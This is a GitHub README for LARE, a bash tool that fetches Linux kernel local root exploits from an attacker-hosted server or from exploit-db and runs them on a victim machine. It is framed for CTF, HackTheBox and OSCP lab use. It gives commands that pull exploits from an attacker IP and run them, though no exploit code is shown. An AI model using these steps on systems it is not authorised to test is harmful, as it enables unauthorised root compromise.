 # LARE
<b>[L]</b>ocal <b>[A]</b>uto <b>[R]</b>oot <b>[E]</b>xploiter is a simple bash script that helps you deploy local root exploits from your attacking machine when your victim machine do not have internet connectivity.

The script is useful in a scenario where your victim machine do not have an internet connection (eg.) while you pivot into internal networks or playing CTFs which uses VPN to connect to there closed labs (eg.) hackthebox.gr or even in OSCP labs.
The script uses Local root exploits for Linux Kernel 2.6-4.8

This script is inspired by <b>Nilotpal Biswas's <a href='https://github.com/nilotpalbiswas/Auto-Root-Exploit'>Auto Root Exploit Tool </a></b>

# Usage: 

<img src = 'https://github.com/EnigmaDimitri/LARE/blob/test-run/screencaps/help.png'>

<H3>1- Attacking Victimin Closed Network</H3>
You have to first set the exploit arsenal on the attacking machine  and start the apache2 instatnce using the following command.
<b><code>
bash LARE.sh -a  or ./LARE.sh -a
</code></b><br>

<img src = 'https://github.com/EnigmaDimitri/LARE/blob/test-run/screencaps/arsenal.png'>
Once done with it, You have to copy the script to the victim machine via any means (wget, ftp, curl etc). and run the Exploiter locally with the following command:
<b><code>
bash LARE.sh -l [Attackers-IP]  or ./LARE.sh -l [Attackers-IP]
</code></b><br>

<img src = 'https://github.com/EnigmaDimitri/LARE/blob/test-run/screencaps/local.png'>

<H3>2- Attacking Victim with Internet Acess</H3>
In this scenario the script is to be ran on the victims machine and it will get the exploits from the exploit-db's github repository and use it for exploitation directly.
This is the original fuctionality of Auto Root Exploit Tool with some fine tunning done.
Run the Exploiter with the following command:
<b><code>
bash LARE.sh -l <Attackers-IP>  or ./LARE.sh -l <Attackers-IP>
</code></b><br>
<img src = 'https://github.com/EnigmaDimitri/LARE/blob/test-run/screencaps/remote.png'>

# Note 

The script runs multiple kernal exploits on the machine which can result in unstability of the system, it is highly recommended to uses it as the last resort and in a non-production environment.



